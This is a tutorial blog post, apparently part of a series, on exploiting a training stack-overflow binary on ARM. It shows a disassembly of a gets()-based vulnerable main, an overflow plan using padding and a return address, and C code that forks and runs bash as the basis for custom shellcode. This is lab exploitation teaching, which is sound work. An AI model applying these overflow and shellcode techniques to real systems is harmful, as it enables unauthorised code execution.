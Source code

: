 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part VI"
tags: [reversing, exploiting, ARM, iasm, azeria-labs, egg, shellcode, PIC]
inline_default_language: nasm
artifacts:
    - stack.svg
    - argv.svg
---
```


We have the same vulnerability than we have in
[stack4](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-V.html)
but this time we will make our own egg/shellcode.


## Same vuln

```nasm
pwndbg> pdisass &main
 ► 0x1041c <main>       push   {fp, lr}
   0x10420 <main+4>     add    fp, sp, #4
   0x10424 <main+8>     sub    sp, sp, #0x48
   0x10428 <main+12>    str    r0, [fp, #-0x48]
   0x1042c <main+16>    str    r1, [fp, #-0x4c]
   0x10430 <main+20>    sub    r3, fp, #0x44
   0x10434 <main+24>    mov    r0, r3
   0x10438 <main+28>    bl     #gets@plt <gets@plt>

   0x1043c <main+32>    mov    r0, r3
   0x10440 <main+36>    sub    sp, fp, #4
   0x10444 <main+40>    pop    {fp, pc}
```

The plan is to overflow the buffer with 0x44 bytes of padding, then 4
bytes with the first return address.

Nothing new. But the fun is just about to begin...

## Planning the egg/exploit

We want something standard but slightly fancy:

 - spawn a shell an run an arbitrary command
 - wait for the spawned process to finish
 - exit the program

This translates to the following C code:

```cpp
#include <unistd.h>
void main() {
    pid_t child = fork();
    if (child == 0) {
        // child
        const char *argv[] = { "/bin/bash", "-c", "echo 'pwn!' > pwned_proof", NULL };
        const char *envp[] = { NULL };
        execve(argv[0], argv, envp);
    }
    else if (child != -1) {
        // parent
        wait4(child, NULL, 0, NULL);
    }
    // catch all exit
    exit_group(0);
}
```